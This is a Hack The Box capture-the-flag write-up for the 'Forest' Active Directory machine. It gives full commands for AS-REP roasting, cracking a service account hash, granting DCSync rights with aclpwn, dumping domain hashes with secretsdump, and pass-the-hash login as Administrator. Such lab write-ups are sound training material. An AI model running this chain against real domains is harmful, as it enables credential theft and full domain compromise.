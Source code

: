 ```yaml
---
layout: single
title:  "HTB - Forest Writeup - 10.10.10.161"
date:   2020-06-08 14:45:23 +0100
categories: hackthebox
excerpt: My wreiteup of the Hackthebox machine Forest
---
```


![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/2qlvus10kpyovinvrdjj.png)

# HTB - Forest Writeup - 10.10.10.161

This machine is rated easy difficulty and involved abusing kerberos pre-authentication to kerberoast a hash of a local service account using the impacket script `GetNPUsers`. Root required using bloodhound to visualize the AD environment and find a path to the domain admin, which included abusing ACL's to get DCSync rights.


## 1. Recon

As usual we will start with an nmap scan of the target machine.
`nmap -sC -sV -oA nmap/scan 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/y5ve5duwo71bc01j1m44.png)
The ports of note here are:
* 445 - SMB
* 88 - Kerberos
* 135 - RPC
* 5985 - Powershell - WSMan - Remote Management 


Knowing that we have rpc open we can try null authentication to get a list of user accounts
`rpcclient -U "" -N 10.10.10.161` `enumdomusers`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ozrr70r5kgd6wk5qqosf.png)

 - One account is of particular interest as is starts with `svc` which indicates it may be a service account which would mean we can abuse its special permissions relating to local groups and users
 - We can attempt to kerberoast this user to try and get a hash we can crack

## 2. Exploitation to User

Clone the [Impacket repo](https://github.com/SecureAuthCorp/impacket) and navigate into the examples folder
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/8rrjysjhmo5awcrfk68g.png)

Now try try attacking the `svc-alfresco` account:
* If you remember from the nmap scan the domain was `htb.local`
`./GetNPUsers.py htb.local/svc-alfresco -format john -dc-ip 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/cvwm8bcl1ojxr7ew4g62.png)
Bingo! We now have the asrep hash of the user `svc-alfresco` and we can crack is using johntheripper
1. First place the hash in a file called hash.txt
2. Run `john -w=/usr/share/wordlists/rockyou.txt hash.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/uladgd2oswyy4gsg5n0w.png)
* We now have the password of the user svc-alfresco - s3rvice

Now we can login to the powershell remote management port using a tool called [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)
`evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/70no1wzqykv6yl5eal8j.png)

Now that we have a shell we can also grab `user.txt`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/eqt6x8uwh1bs6ixell2n.png)

## 3. Priv Esc from User to Domain Admin
* For this priv esc we will use a tool called bloodhound to visualise the Active Directory environment - follow this guide on how to set it up on your system [BloodHound Wiki](https://bloodhound.readthedocs.io/en/latest/index.html)

To begin we need to initialize the neo4j database, you can do this by running: `neo4j console`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ncikv9qhqfgs4kv1tp58.png)

Now that the db has been launched we can launch blood hound by running `bloodhound` in a terminal
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/70n5ncns9wny2bw3z3v4.png)

Now that bloodhound is running, we need some data to analyze, we can use the SharpHound.exe file and the upload and download capabilities of Evil-WinRM to get the files.
Open a new terminal and download the SharpHound.exe file from github
`https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/SharpHound.exe`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/iin83gg0xty15r0wzps5.png)

Now in your Evil-WinRM terminal type: `upload SharpHound.exe`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/7od4miigwy2k6sw2bq6f.png)

Now we can run the file with the `-c All` flag to to specify we wan't to collect all data on the AD environment
`.\SharpHound.exe -c All`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/wera23epacu76kcnetfi.png)

`ls` `download 20200506091425_BloodHound.zip`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/fefgmf7zsksz6y0mk5af.png)

We now have the bloodhound zip file on our local machine so we can open it in bloodhound by dragging it into the window 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/12nb43yp3fbjmsdsvngl.png)
* You should now see that we have a lot of data in our database

Now we can run one of the pre-made queries `Shortest Paths to Unconstrained Delegation Systems` 
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/7c9vjeaqomb8sot6xbye.png)
There are a few things that we can see now:
* We are part of the privileged IT group and as a result part of Account Operators can be a member Exchange Windows Permissions and Exchange Trusted Subsystem Group
* Firstly, this means that we can add ourselves to Exchange Windows Permissions and Exchange Trusted Subsystem Group
* This also means we can abuse ACL (Access Control List) to allow svc-alfresco to perform a DCSync attack to get the admin hash, here is a good video that explains this, [Here](https://www.youtube.com/watch?v=QfyZQDyeXjQ)

Let's try adding ourselves to this group new group:
`net group "Exchange Windows Permissions" svc-alfresco /add`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/c1rqpd51i953tflk5bzn.png)

We can also add ourselves to the `Exchange Trusted Subsystem Group` which will allow us to abuse ACL
`Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members svc-alfresco`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/mi71qtpg1f92lk8xeyc4.png)

We can now use a tool called `aclpwn` to give `svc-alfresco` DCSync rights. There is an article here that describes it's usage very well - [ACLPWN Blog](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)

1. Lets install aclpwn in kali, it's as simple as `pip install aclpwn`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/ld4bmnztdkqyw7fd2r0e.png)

2. Lets execute this command to give us DCSync permissions
`aclpwn -f svc-alfresco -ft user -d htb.local -s 10.10.10.161` and use option 1
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/fqz304mu486dxa7brlwm.png)


3. Now we can use impacket's `secretsdump.py` to get the admin hash
`secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161 -dc-ip 10.10.10.161`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/u2oswynll38jweio651f.png)

### Bingo! We now have the admin hash

We can use this to logon using Evil-WinRM with the -H flag and grab `root.txt`
`evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6`
![Alt Text](https://dev-to-uploads.s3.amazonaws.com/i/r6xpmwnxroiu8qijd4d6.png)

## Rooted!

If you enjoyed my write up or found it useful check out my htb profile linked below:

[![HTB](http://www.hackthebox.eu/badge/image/210952.png)](https://www.hackthebox.eu/home/users/profile/210952)

